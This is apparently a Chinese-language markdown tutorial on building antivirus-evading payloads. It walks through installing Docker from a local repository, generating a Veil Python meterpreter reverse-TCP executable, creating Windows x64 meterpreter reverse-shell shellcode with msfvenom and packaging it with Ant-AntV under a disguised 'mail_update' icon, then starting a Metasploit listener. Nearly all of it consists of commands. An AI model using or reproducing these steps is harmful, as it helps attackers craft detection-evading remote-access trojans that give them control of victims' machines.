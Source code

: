 ## 利用veil的docker制作免杀
#### 1.安装docker包
```shell
#1.安装Linux操作系统

#2.配置IP地址

#3.修改yum配置文件，指定为本地光盘源安装
vim /etc/yum.repo.d/a.repo
[a]
baseurl=file:///a/AppStream
gpgcheck=0
enabled=1

[b]
baseurl=file:///a/BaseOS
gpgcheck=0
enabled=1

#4.安装createrepo工具为docker包创建关联
yum install createrepo

#5.将docker的rpm包导入系统的/opt/docker目录

#6.利用createrepo工具创建docker包关联
createrepo -v /opt/docker

#7.在yum文件中添加docker仓库
[c]
baseurl=file:///opt/docker
gpgcheck=0
enabled=1

#8.安装docker
yum install docker-*
```

#### 2.导入veil容器
```shell
#1.查看当前docker镜像
docker images

#2.导入docker镜像
docker load < veil.tar

#3.通过bash启动镜像
docker run -it --name test 镜像名/镜像ID bash
#--name为启动的镜像命名
```

#### 3.通过veil制作免杀
```shell
#1.veil进入veil Evasion工具
veil

#2.使用Evasion工具
use Evasion

#3.查看Evasion工具支持的攻击载荷
list

#4.选择相应载荷制作免杀，这里要说明，系统要有相应的软件环境才能制作对应编程语言的免杀
#选择python/meterpreter/rev_tcp.py
use python/meterpreter/rev_tcp.py
#使用options查看载荷参数
options
#配置载荷参数中的lhost(地址为攻击机的地址)
set lhost 192.168.100.1

#5.生成载荷
generate
#出现[>] Please enter the base name for output files (default is payload): 表示输入生成载荷的名称
#选择PyInstaller,输入1
1
#生成完成后的载荷为.exe保存路径为/var/lib/veil/output/compiled/test.exe

#6.将容器内的载荷拷贝到外部
docker cp 容器ID:/var/lib/veil/output/compiled/test.exe /opt/docker
#                 文件的容器路径                          操作系统本地路径
```
## 三方免杀------Ant-Antv
#### 环境:
- kali
- python 3.9
- Win10 22H2(制作免杀攻击机)
- Win10 21H2(靶机)

#### 安装和下载Ant-Antv
```shell

git clone https://github.com/shellfeel/Ant-AntV
cd Ant-AntV

#在Windows 10上执行pip
pip install -i https://mirrors.aliyun.com/pypi/simple/ -r requirements.txt
```

#### 生成shellcode
```shell
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.12.22 LPORT=5555 -f raw -o 1.bin

#将生成的shellcode命名成beacon.bin 放到当前bean_raw路径下 如需给程序加上icon，可以将icon命名成mail_update.icon(可修改gen_trojan.py 48行形参out_file_name 来更改，这个参数本身也是生成的程序名)放入resource目录 执行下面命令进行打包程序。

python gen_trojan.py
```

#### 开启监听
```shell
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.12.22
set LPORT 5555
exploit
```














```
